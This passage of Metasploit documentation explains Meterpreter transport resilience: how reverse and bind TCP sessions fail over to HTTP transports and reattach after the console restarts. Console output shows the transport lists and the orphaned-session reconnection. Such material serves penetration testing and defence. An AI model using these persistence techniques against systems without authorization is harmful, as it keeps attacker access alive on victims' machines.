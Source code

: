 ```

meterpreter > 
```

### Resilient transports

Prior to the recent changes, Meterpreter only had built-in resiliency in the `HTTP/S` payloads and this was due the nature of `HTTP/S` as a stateless protocol. Meterpreter now has resiliency features baked into `TCP` transports as well, both `reverse` and `bind`. If communication fails on a given transport, Meterpreter will roll over to the next one automatically.

The following shows Metasploit being closed and leaving the existing `TCP` session running behind the scenes:

```
meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10

meterpreter > background
[*] Backgrounding session 5...
msf exploit(handler) > exit -y
```
With Metasploit closed, the Meterpreter session has detected that the transport is no longer functioning. Behind the scenes, Meterpreter has shut down this `TCP` transport, and has automatically moved over to the `HTTP` transport as this was the next transport in the list. From here, Meterpreter continues to try to re-establish connectivity with Metasploit on this transport a per the transport timeout settings.

The following output shows Metasploit being re-launched with the appropriate listeners, and the existing Meterpreter instance establishing a session automatically:

```
./msfconsole -r ~/msf.rc
[*] Starting the Metasploit Framework console...|
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.11.0-dev [core:4.11.0.pre.dev api:1.0.0]]
+ -- --=[ 1460 exploits - 835 auxiliary - 229 post        ]
+ -- --=[ 426 payloads - 37 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

... snip ...

[*] 10.1.10.40:46457 (UUID: 8e97549ed2baf6a8/x86_64=2/windows=1/2015-06-02T09:56:05Z) Attaching orphaned/stageless session ...
[*] Meterpreter session 1 opened (10.1.10.40:5105 -> 10.1.10.40:46457) at 2015-06-02 21:03:55 +1000

```

  [Timeout documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Timeout-Control
  [Reliable Network documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication